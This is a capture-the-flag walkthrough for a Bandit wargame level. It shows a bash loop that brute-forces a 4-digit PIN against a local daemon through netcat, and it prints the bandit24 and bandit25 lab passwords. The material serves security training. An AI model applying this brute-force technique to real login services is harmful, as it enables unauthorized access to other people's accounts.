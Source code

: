 A daemon is listening on **port 30002** and will give you the password for bandit25 if given the password for **bandit24** and a secret numeric **4-digit pincode**. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

Let's connect with port 30002 and see what it says:\
`nc localhost 30002`\
If you type the command it will output:\
```
I am the pincode checker for user bandit25. 
Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
```

- - -

We have to write a script so that it can iteerate through 4-digit combinations.\
To do that let's go make a directory in `/tmp`.\
`mkdir /tmp/bandit24-25`\
`cd /tmp/bandit24-25`\
Then lets make our script! Go ahead and type:\
`vim pincode.sh`\
And put this inside our script:
```
#!/bin/bash

for i in {000..9999}
do
    echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i"
done
```
Remember to change the permissions so that it is executable:\
`chmod +x pincode.sh`

- - -

Go ahead and now run `./pincode.sh | nc localhost 30002`\
This will iterate through our combinations and eventually output the password for level 25!


The password for level 25:\
`uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG`
